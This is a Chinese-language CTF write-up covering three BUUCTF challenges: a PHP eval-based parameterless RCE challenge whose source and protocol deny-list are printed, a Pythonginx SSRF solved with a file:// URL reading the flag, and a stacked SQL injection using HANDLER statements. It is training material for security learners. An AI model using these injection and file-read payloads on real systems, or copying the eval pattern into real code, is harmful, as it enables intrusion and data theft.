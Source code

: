 # buu摸鱼日记（10）

## [GXYCTF2019]禁止套娃

一个简单的rce，之前没怎么接触过RCE，没做出来

首先niklo扫了下，发现是git泄露，于是乎直接拿到了源码

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

#### 无参数rce

[什么是无参数函数RCE](https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/#什么是无参数函数RCE)

其实就是一个远端执行php,类似于一句话那种

php data等伪协议都被ban了，呢么就直接执行就行了，这里利用PHPSESS_id来绕过那个bin2hex即可

## [SUCTF 2019]Pythonginx

审计源码挺草的，别的没什么

配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf



读取Nginx服务器的配置

\# location /flag {    #     alias /usr/fffffflag;    # } }

，用file协议去探路，然后穿个

file:////suctf.cc/usr/fffffflag

就拿到flag了

## [GYCTF2020]Blacklist

这个是强网杯的那个预编译的升级版，不过他连预编译也一起毙了

`HANDLER ... OPEN`语句打开一个表，使其可以使用后续`HANDLER ... READ`语句访问，该表对象未被其他会话共享，并且在会话调用`HANDLER ... CLOSE`或会话终止之前不会关闭

```sql
1';
HANDLER FlagHere OPEN;
HANDLER FlagHere READ FIRST;
HANDLER FlagHere CLOSE;#
```

